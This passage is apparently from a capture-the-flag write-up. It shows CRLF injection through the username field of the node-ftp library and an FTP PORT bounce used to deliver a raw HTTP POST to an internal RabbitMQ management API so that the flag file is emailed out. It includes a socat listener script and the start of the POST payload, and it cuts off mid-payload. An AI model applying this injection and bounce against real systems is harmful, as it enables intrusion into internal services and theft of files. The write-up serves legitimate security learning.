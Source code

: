 After going through `node-ftp`'s source, I realized that there are no checks on username/password. We should be able to send something like `user\r\nRANDOM_FTP_COMMAND` as username.

And guess what, it worked! :fist: 

We can run arbitrary FTP commands, comrades!

Now, we'll have to find a way to send a POST request to `rabbit` using FTP. Sounds crazy, right?!

Knowing nothing about the FTP, I turned to my best friend, Google.

Here's an interesting fact about FTP: there's a separate connection for data transfers. I learned that there are two ways in which this connection is created:
- `Active`: The client opens a port and informs the server to make a connection to it. The `PORT` ftp command is used for this. As you might have noticed, this gets problematic due to NAT. That's why they created the passive mode.
- `Passive`: The client requests the server (by sending `PASV`) to open a port to establish the data connection.

I was curious to know how the server knows which port to connect to or vice versa. So, I dug deeper.

Here's an example to understand this:
To retrieve a file named `test`:
```
# First, authenticate
> USER user
<
> PASS pass
<
Now, the client will open a port, say :8001 and inform the server about it. This is Active mode.
> PORT 127,0,0,1,0,8001
<
> RETR test
# The ftp server will now send the file to 127.0.0.1:8001
```
Isn't that fascinating?! We can make the ftp server send stuff to an arbitrary server!

This could be a way to send a POST request to rabbit management and thus get the flag.

I quickly thought of an attack plan.

## The Attack Plan
Here's what we are gonna do:
- Execute arbitrary ftp commands by injecting it into the `username` field
- upload a file containing raw POST request to add a message to the `email` queue which'll send an email with `/flag.txt` as an attachment.
- use ftp `PORT` command to send that file to the rabbitmq management server

And hopefully, we'll get the flag.

<details><summary>Some Gotchas</summary></details>

### Step 1: Upload raw POST payload
I created a simple socat server to listen for data connections:
```bash
ubuntu@ip-172-31-3-141:~/ctf/problem$ cat s.sh 
#!/bin/bash
sleep 0.1
cat payload
ubuntu@ip-172-31-3-141:~/ctf/problem$ sudo socat -v -v tcp-l:80,reuseaddr,fork exec:./s.sh
```
Here's the first payload I sent:
```
POST /api/exchanges/%2F/amq.default/publish HTTP/1.1
Host: 172.32.56.72:15672
Authorization: Basic dGVzdDp0ZXN0
Accept: */*
Content-Type: application/json;charset=UTF-8
```